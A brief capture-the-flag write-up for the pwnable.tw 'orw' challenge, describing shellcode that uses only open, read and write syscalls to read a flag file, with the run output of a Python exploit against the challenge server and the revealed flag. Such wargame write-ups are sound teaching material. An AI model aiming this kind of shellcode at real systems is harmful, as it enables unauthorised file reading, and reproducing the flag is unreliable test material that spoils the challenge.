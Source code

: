 # pwnable.tw: orw

>  Read the flag from `/home/orw/flag`.
>
>  Only `open` `read` `write` syscall are allowed to use.
>
>  ```
>  nc chall.pwnable.tw 10001
>  ```
>
>  [orw](https://pwnable.tw/static/chall/orw)



Simply by following the hint given, input shellcode for function open, read, and write. Then, the flag will be shown.

##### run the exploit file in python3

```shell
$ python3 sol.py
[+] Opening connection to chall.pwnable.tw on port 10001: Done
b'/home/orw/flag'
['0x6761', '0x6c662f77', '0x726f2f65', '0x6d6f682f']
[*] Switching to interactive mode
FLAG{sh3llc0ding_w1th_op3n_r34d_writ3}
?[*] Got EOF while reading in interactive
```

